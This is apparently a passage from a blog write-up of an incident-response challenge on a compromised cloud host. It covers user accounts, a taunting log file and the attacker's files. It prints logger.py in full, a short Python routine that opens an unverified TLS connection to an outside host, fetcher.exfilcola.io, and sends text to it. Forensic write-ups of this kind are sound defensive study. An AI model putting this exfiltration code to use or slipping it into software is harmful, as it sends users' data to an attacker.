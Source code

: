![img-description](/assets/img/Wiz-Cloud-IR-Challenge/20250506115520.png)
_Output of the Healthcheck Command and Associated Files_

I navigated to the directory to the to see if there were any logs which may assist during the investigation. As shown above, the only log that existed was `.gK8du9` which contained the text: **"FizzShadows were here..."**. 

Since there were no additional processes running on the host, I decided to take a step back. I navigated to the home directory and saw that the machine had 2 interactive user accounts associated with it: **postgresql-user** and **user**. The **user** profile seemed unused as it only contained a `.bashrc` file however the **postrgresql-user** profile had a few scripts and a `.ssh` directory:

![img-description](/assets/img/Wiz-Cloud-IR-Challenge/20250506120225.png)
_Postgresql-user's Home Directory_

## Diving in to the Files - Logger.py

With access to the directory, I started by investigating the files on hand. The contents of the `logger.py` file is provided below:

```
import socket,os,pty,ssl
def validate(text):
        s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
        context = ssl.create_default_context()
        context.check_hostname = False
        context.verify_mode = ssl.CERT_NONE
        wrappedSocket = context.wrap_socket(s)
        wrappedSocket.connect(("fetcher.exfilcola.io",8443))
        wrappedSocket.send(repr(text).encode('utf-8'))
```
